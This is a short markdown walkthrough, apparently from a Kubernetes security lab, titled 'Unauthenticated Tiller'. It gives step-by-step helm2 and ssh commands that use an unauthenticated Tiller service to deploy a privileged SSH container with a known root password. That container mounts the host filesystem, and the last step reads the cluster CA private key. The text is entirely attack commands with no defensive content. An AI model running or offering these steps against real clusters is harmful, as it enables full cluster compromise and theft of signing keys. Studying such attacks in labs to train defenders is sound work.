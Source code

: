 # Unauthenticated Tiller

1. `helm2 --host [CLUSTERIP]:[NodePort] version` - Will prove we have access when the server replies.
2. `helm2 --host [CLUSTERIP]:[NodePort] ls` - will show there are no charts currently deployed.
3. `helm2 --host [CLUSTERIP]:[NodePort] install /charts/privsshchart-0.1.0.tgz` - Will deploy a chart which runs a privileged container in the cluster and opens SSH with a predictable username/password.  This should deploy the SSH service to a port in the service range.  This pod also mounts the underlying root filesystem under `/host` on the cluster.
4. `ssh -p [PORT] root@[CLUSTERIP]` password is `reallyinsecure`
5. `cat /host/etc/kubernetes/pki/ca.key`
6. Profit!